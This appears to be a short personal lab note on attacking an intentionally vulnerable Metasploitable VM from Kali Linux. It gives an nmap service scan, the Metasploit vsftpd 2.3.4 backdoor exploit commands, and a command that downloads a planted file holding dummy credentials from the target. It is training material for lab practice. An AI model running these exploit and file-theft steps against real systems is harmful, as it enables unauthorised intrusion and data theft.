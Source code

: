 
![[Pasted image 20250209200128.png]]

🔷 Step 7: Start Ethical Hacking!
Example 1: Scan Metasploitable with Nmap

From Kali, scan the target:

nmap -sV -A 192.168.56.101

Example 2: Exploit with Metasploit

Start Metasploit in Kali:

msfconsole

Use a known exploit:

use exploit/unix/ftp/vsftpd_234_backdoor
set TARGET 0
set RHOSTS 192.168.56.101
exploit


## Read files in the target machine

In Metasploitable2:

Create a txt file with the following content 
```
Super secret condifential content

username Hello34
pwd 123456789
```


Read file from Kali linux
![[Pasted image 20250209200514.png]]


## Send and receive files from the target machine using FTP
Send a file from Kali Linux


# Download files using metaexploitable

```
download /home/msfadmin/testfile.txt /home/yisus/Desktop
```

problem:

![[Pasted image 20250209204417.png]]